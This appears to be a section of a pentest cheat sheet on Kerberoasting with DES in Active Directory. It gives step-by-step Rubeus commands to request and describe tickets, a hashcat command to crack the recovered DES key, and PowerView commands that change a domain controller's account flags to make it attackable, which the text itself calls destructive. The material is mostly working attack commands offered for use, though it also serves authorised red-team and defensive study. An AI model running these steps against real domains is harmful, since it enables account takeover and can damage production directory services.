 ### Kerberoast with DES

DES can be enabled in the following GPO `Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network security` on the Domain Controller, on in the following registry key : `HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\Kerberos\parameters\SupportedEncryptionTypes`. DES can be use to takeover any account except `krbtgt` and trust accounts. Full explains [here](https://exploit.ph/des-is-useful.html).

* Check if DES is enabled

```powershell
./Rubeus.exe asktgt /user:user1 /password:Password123 /domain:domain.local /dc:dc.domain.local /suppenctype:des /nowrap

#To check in the UAC of an account
Get-DomainUser user1 -Domain domain.local -Server dc.domain.local | select useraccountcontrol,serviceprincipalname
```

* Request a ST for the target SPN

```powershell
./Rubeus.exe asktgs /ticket:TGT.kirbi /service:<target_SPN> /enctype:des /dc:dc.domain.local /nowrap
```

* Perform a U2U request. The goal is to obtain a ticket for the user than can be decrypted to read the first block of plain text. This block will be used after to form a crackable hash. Retrieve the value of "Block One Plain Text" in the output

```powershell
./Rubeus.exe asktgs /u2u /ticket:TGT.kirbi /tgs:TGT.kirbi /nowrap
```

* Then, reuse this value in the `/desplaintext` parameter with the `describe` command

```powershell
./Rubeus.exe describe /desplaintext:<plain_text> /ticket:<previous_ST>
```

The `Kerberoast Hash` value in the output can be used with hashcat:

```bash
hashcat -a 3 -m 14000 <kerberoast_hash> -1 charsets/DES_full.charset --hex-charset ?1?1?1?1?1?1?1?1
```

The obtained DES key can now be used to ask for a TGT for the target account.

To exploit this against a Domain Controller, the DC account UAC must be changed from `SERVER_TRUST_ACCOUNT` (8192) needs to be changed to `WORKSTATION_TRUST_ACCOUNT` (4096) (Owner or Write access against the DC account are needed). **This attack can be destructive. It is not recommanded to perform it in production**. Additionally, DES must be activated in the UAC.

```powershell
Set-DomainObject "CN=DC,OU=Domain Controllers,DC=domain,DC=local" -XOR @{'useraccountcontrol'=12288}
Set-DomainObject "CN=DC,OU=Domain Controllers,DC=domain,DC=local" -XOR @{'useraccountcontrol'=2097152}
```
